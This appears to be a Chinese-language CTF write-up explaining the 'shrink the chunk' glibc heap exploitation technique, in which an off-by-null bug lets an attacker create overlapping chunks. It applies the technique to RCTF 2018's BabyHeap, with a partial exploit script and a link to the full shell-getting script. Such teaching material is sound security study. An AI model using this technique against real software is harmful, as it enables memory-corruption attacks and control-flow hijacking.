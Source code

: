 # 0x00 介绍

Shink-the-chunk是一种高级堆利用技巧，主要是对堆的巧妙排布造成overlap chunk,这里通过刚结束不久的RCTF中的BabyHeap和大家一起学习一下这种技巧

# 0x01 原理

	利用条件：存在off-by-null或者其他可以改变下一个chunk size域的漏洞
	目地：制造overlap chunk，进而更改其他chunk的内容
	利用的机制：当前后块空闲时，unsortbin和smallbin会做unlink操作这一特性

## 利用步骤如下


### 第一步

	分配三个堆块，fastbin为空

![](./Images/shrink-the-chunk/1.1.png)

### 第二步

	free(B)

![](./Images/shrink-the-chunk/1.2.png)

### 第三步

	free(A)

![](./Images/shrink-the-chunk/1.3.png)

### 第四步

	malloc(0x38)

![](./Images/shrink-the-chunk/1.4.png)

### 第五步

	通过A off-by-one overflow将B的size域最后一字节置0

![](./Images/shrink-the-chunk/1.5.png)

### 第六步

	malloc(0x80)

![](./Images/shrink-the-chunk/1.6.png)

### 第七步

	malloc(0x30)

![](./Images/shrink-the-chunk/1.7.png)

### 第八步

	free(B)

![](./Images/shrink-the-chunk/1.8.png)

### 第九步

	free(C)

![](./Images/shrink-the-chunk/1.9.png)

因为 C 是 smallbin的⼤⼩的关系，所以会检测上⼀块chunk是否 inused

![](./Images/shrink-the-chunk/2.0.png)

如果上⼀块是 freed 就会根据prev_size去找上⼀块 chunk的 header 做 unlink

![](./Images/shrink-the-chunk/2.1.png)

此时 unsortbin 存着这块大 chunk ，所以下次malloc 先分配这⼀块

![](./Images/shrink-the-chunk/2.2.png)

### 最后一步

	malloc(0x260)

![](./Images/shrink-the-chunk/2.3.png)

此时可通过新申请的大chunk任意改 D

![](./Images/shrink-the-chunk/2.4.png)

## 结合其他漏洞进行利用

	1.如果中間overlap 部分有 function pointer 或者是其他有⽤的 struct 可间接控制程式流程
	2.可以配合 fastbin freed chunk 更改 fd

# 0x02 RCTF-BabyHeap

题目下载地址：https://github.com/moonAgirl/CTF/tree/master/2018/RCTF/babyheap

在该题中存在off-by-null,可更改下一个chunk的size最后一字节为0

![](./Images/shrink-the-chunk/2.5.png)

利用off by null来chunk overlap,chunk overlap之后利用fast binattack来get shell

## off by null&chunk overlap

	alloc(0x48,'aaaa')
	alloc(0xf9,'bbbb')
	alloc(0xa8,'cccc')
	alloc(0x100,'dddd')
	
	#-----------off by null-------------
	delete(1)
	delete(0)
	alloc(0x48,'a'*0x48)
	
	
	#----------chunk overlap--------
	alloc(0x88,'1\n')
	alloc(0x68,'4\n')
	
	delete(1)
	delete(2)

具体脚本：https://github.com/moonAgirl/CTF/blob/master/2018/RCTF/babyheap/babyheap.py

# 0x03 总结

除了shrink chunk,还有extend chunk,结果都是造成chunk overlap

